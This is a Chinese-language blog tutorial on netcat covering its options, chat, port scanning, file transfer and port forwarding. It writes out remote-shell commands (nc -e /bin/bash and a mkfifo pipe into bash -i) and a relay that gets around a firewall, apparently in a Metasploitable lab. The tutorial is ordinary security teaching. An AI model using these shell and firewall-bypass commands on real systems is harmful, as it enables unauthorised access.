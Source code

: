 ```yaml
---
title: netcat
date: 2019-01-17 15:19:13
tags: [linux]
---
```


netcat简称nc, 能通过tcp和udp在网络中读取数据。在两台电脑间建立连接，监听并返回两个数据流。

#### 1.常用参数：
```
	-4/6 使用IPv4/6地址
	-b 允许broadcast广播
	-c  发送CRLF（回车换行 Carriage-Return Line-Feed）当line-ending
	-d 不尝试读取stdin
	-I length 设置TCP接收的buffer的大小
	-i interval 设置发送和接收间的延迟秒数，
	-l 监听模式
	-n 直接使用ip,不通过域名服务器DNS查询域名
	-o length  设置TCP发送的buffer大小
	-P 代理名字
	-p nc使用的端口
	-v verbose更多输出信息
	-w timeout
	-u 使用UDP
	-r 随机选择端口
	-s source  设置本地主机送出数据包的IP地址
```
#### 2.使用例子
#####	1.建立连接，聊天
		nc -l port 在本地主机监听一个端口<br>
		nc ip port 在其它主机与之建立连接（默认TCP），发送消息
#####	2.端口扫描
		原理，进行tcp三次握手建立连接，如果成功则说明端口开放，容易被防火墙，IDS检测到<br>
		nc -v -n -z ip port(可以是范围)<br>
			-v进行详细输出<br>
			-n不进行域名查询<br>
			-z建立连接后关闭连接，不进行数据交换<br>
#####	3.数据传输(甚至可以传输流媒体）
		类似于聊天，只是将输入换成文件，使用重定向或者管道符<br>
		server:  nc -l port < file1.txt<br>
		clien: nc -n ip port > file2txt<br>
		file1往file2传数据<br>
#####	4.获取shell，正反向shell
		如果有-e参数，直接 nc ip port -e /bin/bash<br>
		无-e参数时:<br>
		server:<br>
		mkfifo /tmp/fifo<br>
		cat /tmp/fifo | /bin/bash -i 2>&1 | nc -l port > /tmp/fifo<br>
		client:<br>
		nc ip port<br>
		原理：<br>
		bash -i 进入交互模式<br>
		通过mkfifo 建立一个管道（命令管道）文件，将管道文件的内容通过匿名管道传给/bin/bash执行，然后再将nc监听到的输入写入fifo,形成一个循环

#####	5.端口转发
		- 背景：192.168.1.103的msfadmin用户需要访问192.168.1.102的8000端口，但是该端口被防火墙保护着，不允许外界机器访问。目前msfadmin用户只能访问192.168.1.102的9000端口。需要9000端口做转发。
		- 目标：msfadmin通过访问192.168.1.102的9000端口，达到与8000端口通话的目的。
		原理：<br>
		在102上：nc -l 8000<br>
					  cat /tmp/fifo | nc localhost 8000 | nc -l 9000 > /tmp/fifo
		在103上：<br>
				nc 192.168.1.102 9000<br>
		在102主机上，开启要转发的8000端口，然后用9000端口通过接收数据，然后连接本地8000端口，将命令管道的数据通过匿名管道传给8000端口
